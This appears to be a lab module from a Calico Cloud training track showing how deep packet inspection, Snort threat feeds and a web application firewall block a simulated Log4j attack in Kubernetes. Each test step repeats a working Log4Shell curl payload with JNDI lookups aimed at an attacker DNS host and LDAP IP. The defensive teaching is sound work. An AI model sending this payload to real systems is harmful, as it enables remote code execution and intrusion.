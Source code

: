 ```yaml
---
slug: waf-dpi
id: km7fd7bgqviq
type: challenge
title: Mitigate the risk of Log4j using DPI and WAF
teaser: Apply security policies to reduce the attack surface.
notes:
- type: image
  url: ../assets/module03.png
tabs:
- title: Shell
  type: terminal
  hostname: controlplane
- title: Calico Cloud
  type: website
  hostname: controlplane
  url: https://www.calicocloud.io/home
  new_window: true
difficulty: basic
timelimit: 600
---
```


Log4j exploit simulation
================

**So how does this attack work?**
- In simple terms, the attacker exploits the vulnerability by sending a malicious request that includes an IP of the command and control (C&C) server to the Java Log4j server, and then the Log4j library executes it without verification and starts the communication with the C&C server.
- This results in an open threat that can be used to send the malicious payload by crafting a malicious request.

We will simulate the Log4j exploit in the `dev` namespace.


1- Check the running `vr-dev` service in the `dev` namespace.

```
kubectl get svc -n dev
```

2- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

3- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Notice the IP of the C&C server is part of the query `185.220.101.56`.

4- Now let's go to the Calico Cloud UI to see the impact of this query.
- From the left menu, select **Service Graph** and choose ***Default**
- Double-click **Dev** namespace
- Click on the line that represents the traffic from `multitool` to `vr-dev` and expand the flows to see the details.

![Image Description](../assets/multitool-to-vr.png)

- click on the line that represent the traffic from `vr-dev` to `public network` and expnad the fllows to see the deatails.

![Image Description](../assets/vr-to-public.png)

Now the attacker has an open threat that could be used to send the malicious payload.

It's time to add some guard rails to protect against these malicious requests.

Deep Packet Inspection
================

1- Create a `DeepPacketInspection` resource. In this example, we will enable DPI on the `vr-dev` service in the `dev` namespace.

```bash
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: DeepPacketInspection
metadata:
  name: dpi-vr
  namespace: dev
spec:
  selector: app == "vr"
EOF
```

2- Check that the `tigera-dpi` pods are created successfully. It's a daemonSet, so one pod should be created in each node.

```bash
kubectl get pods -n tigera-dpi
```

3- Now, let's re-run our test.

- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

4- This time, you should get an alert in Calico Cloud’s UI. Check the alert in the `Service Graph` or `Alerts` page.

![Image Description](../assets/dpi-alert.png)

![Image Description](../assets/alerts-page.png)


Threat feeds
================
Another mechanism to proactively restrict workload access is to use global threat feeds. Threat feeds are databases of known malicious IPs and FQDN that get updated regularly, and you can integrate them into Calico Cloud.

In this example of the Log4j exploit, the command and control IP address is listed in the Snort threat feed.

Let's configure Snort threat feeds to stop the log4j exploitation.

1- Create GlobalThreatFeed.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalThreatFeed
metadata:
  name: snort-ip-block-list
spec:
  pull:
    http:
      url: https://snort.org/downloads/ip-block-list
  globalNetworkSet:
    labels:
      threatfeed: snort
EOF
```

2- Create a security policy to block traffic to malicious IPs.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalNetworkPolicy
metadata:
  name: tigera-security.block-snort-ipthreatfeeds
spec:
  tier: tigera-security
  order: 0
  selector: all()
  namespaceSelector: ''
  serviceAccountSelector: ''
  egress:
    - action: Deny
      source: {}
      destination:
        selector: threatfeed == "snort"
  doNotTrack: false
  applyOnForward: false
  preDNAT: false
  types:
    - Egress
EOF
```

3- Repeat the log4j test.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Now you notice that traffic is blocked because the C&C server IP is a malicious IP.

![Image Description](../assets/snort-threatfeeds.png)
![Image Description](../assets/threatfeed-alert.png)


Web Application Firewall (WAF)
================
Calico Cloud’s workload-based web application firewall (WAF) helps you protect cloud-native applications from application-layer attacks.

Important: You need to delete the globalthreatfeeds we created before to ensure it's not blocking the traffic.

```bash
kubectl delete globalthreatfeeds snort-ip-block-list
```

1- In this lab, WAF is enabled by default. You can check the status by running the following command:

```bash
kubectl describe  ApplicationLayer tigera-secure | grep 'Web Application Firewall'
```

2- Now you need to annotate the services for which you wish to enable WAF. In this example, we will annotate the `vr-dev` service.

```bash
kubectl annotate svc vr-dev -n dev projectcalico.org/l7-logging=true
```

3- If you try to exploit the Log4j vulnerability again, traffic should be blocked and you should get the following alert:

```bash
kubectl exec -n dev -it multitool -- bash
```

- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```
- This time you should get a different http response as following

```bash
 HTTP/1.1 403 Forbidden
```

🏁 Finish
============
Click **Next** to continue to the next challenge.

